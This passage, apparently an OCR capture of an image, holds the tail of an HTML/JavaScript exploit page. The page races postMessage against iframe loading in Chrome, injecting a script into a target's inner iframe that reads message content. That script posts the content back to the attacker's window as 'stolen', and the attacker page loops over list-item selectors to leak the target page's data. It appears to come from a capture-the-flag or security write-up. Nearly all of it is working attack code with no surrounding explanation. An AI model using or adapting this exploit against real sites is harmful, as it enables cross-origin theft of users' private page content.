 ``` html
            win.location = url;
            await new Promise((resolve) => {
                loop.onmessage = () => {
                    if (win.length === 1) {
                        // Send a huge message so e.data.toString() blocks a thread for a while
                        // By transfering only a reference to memory chunk, sending the message
                        // will be fast enough to race condition window.onmessage and iframe.onload
                        // notify(Date.now(), '==1');
                        win?.postMessage(buffer, '*', [buffer.buffer]);
                        // Once we know the innerIframe loaded, we can now postMessage to it
                        // because it will be rendered in a different process in Chrome, so
                        // the blocked parent thread won't affect rendering the iframe!
                        setTimeout(() => {
                            win[0]?.postMessage(
                                {
                                    body: `LOL! <script>onmessage=async (e)=>{
                      let text = await e.data.body.text();
                      parent.opener.postMessage({stolen: text}, '*');
                    }<\/script>`,
                                    mimeType: "text/html",
                                },
                                "*"
                            );
                            resolve();
                        }, 500);
                    } else {
                        loop.postMessage(null);
                    }
                };
                loop.postMessage(null);
            });
            return 1;
        }
        var TIMEOUT = 1500;
        var win;
        function waitForMessage(url) {
            return new Promise(async resolve => {
                onmessage = e => {
                    if (e.data.stolen) {
                        notify(e.data.stolen);
                        log.innerText += e.data.stolen + '\n';
                        resolve(false);
                    }
                }
                const rnd = 'a' + Math.random().toString(16).slice(2);
                const _url = url + ',' + rnd;
                await load(win, _url);
                setTimeout(() => {
                    resolve(true);
                }, TIMEOUT);
            });
        }
        onload = onclick = async () => {
            if (!win || win.closed) {
                win = open('about:blank', 'hack', 'width=800,height=300,top=500');
            }
            for (let i = 1; i < 100; i++) {
                const url = `${URL}/#a,.list-group-item:nth-child(${i})`;
                while (await waitForMessage(url));
            }
        };
    </script>
</body>
```